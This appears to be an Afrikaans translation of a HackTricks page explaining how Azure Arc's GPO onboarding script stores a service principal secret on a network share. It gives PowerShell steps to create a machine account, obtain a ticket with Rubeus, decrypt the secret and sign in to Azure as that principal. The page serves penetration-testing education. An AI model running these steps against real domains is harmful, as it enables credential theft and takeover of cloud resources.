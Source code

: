 # Az - Arc kwesbare GPO Ontplooi Skrip

{{#include ../../../banners/hacktricks-training.md}}

### Identifisering van die Probleme

Azure Arc stel die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc via die Groep Beleidsobjek metode moontlik. Om dit te fasiliteer, bied Microsoft 'n ontplooiing toolkit wat nodig is om die aanmeldproses te begin. Binne die ArcEnableServerGroupPolicy.zip lêer, kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer dit uitgevoer word, voer die DeployGPO.ps1 skrip die volgende aksies uit:

1. Skep die Azure Arc Servers Aanmeld GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanmeld skrip na die aangewese netwerkdeel wat geskep is vir die aanmeldproses, wat ook die Windows installer pakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelselsadmins twee hoofparameters verskaf: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die deel huisves, en die deelnaam. Verdere besonderhede soos die tenant ID, hulpbron groep, en ander nodige inligting moet ook aan die skrip verskaf word.

'n Geënkripteerde geheim word in die AzureArcDeploy gids op die gespesifiseerde deel gegenereer met behulp van DPAPI-NG enkripsie. Die geënkripteerde geheim word in 'n lêer genaamd encryptedServicePrincipalSecret gestoor. Bewyse hiervan kan gevind word in die DeployGPO.ps1 skrip, waar die enkripsie uitgevoer word deur ProtectBase64 met $descriptor en $ServicePrincipalSecret as insette aan te roep. Die descriptor bestaan uit die Domein Rekenaar en Domein Beheerder groep SIDs, wat verseker dat die ServicePrincipalSecret slegs deur die Domein Beheerders en Domein Rekenaar sekuriteitsgroepe ontkripteer kan word, soos opgemerk in die skrip kommentaar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ons het die volgende voorwaardes:

1. Ons het suksesvol die interne netwerk binnegedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of te beheer.
3. Ons het 'n netwerkdeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n masjienrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die masjienrekeningkwota te benut. 'n Ander metode behels die kompromittering van 'n masjienrekening deur kwesbare ACL's of verskeie ander miskonfigurasies.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om met hierdie rekening te autentiseer. Ons kan of die runas.exe-opdrag met die netonly-vlag gebruik of pass-the-ticket met Rubeus.exe gebruik.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in geheue te stoor, kan ons die volgende skrip gebruik om die dienshoofsekrte te ontsleutel.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting versamel wat nodig is om met Azure te verbind vanaf die ArcInfo.json-lêer, wat op dieselfde netwerkdeel gestoor is as die encryptedServicePrincipalSecret-lêer. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gecompromitteerde dienshoof te verifieer.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
